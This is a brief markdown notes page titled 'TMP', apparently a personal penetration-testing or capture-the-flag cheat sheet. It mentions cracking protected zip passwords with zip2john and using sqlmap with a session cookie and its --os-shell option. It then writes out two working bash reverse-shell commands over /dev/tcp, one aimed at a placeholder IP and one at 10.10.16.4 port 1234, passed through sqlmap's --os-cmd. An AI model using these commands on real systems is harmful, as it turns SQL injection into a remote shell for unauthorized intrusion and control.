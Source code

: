 ```yaml
---
sort : 12
--- 
```


# TMP 

Break protected zip file password ==> zip2john

sqlmap ===> if ypu loged in as a user, don't forget to provide the --cookie option for authentication

and keep in your mind the --os-shell option ==> use it to gain the bash reverse shell

os-shell>       bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"

--os-cmd 'bash -c "bash -i >& /dev/tcp/10.10.16.4/1234 0>&1"'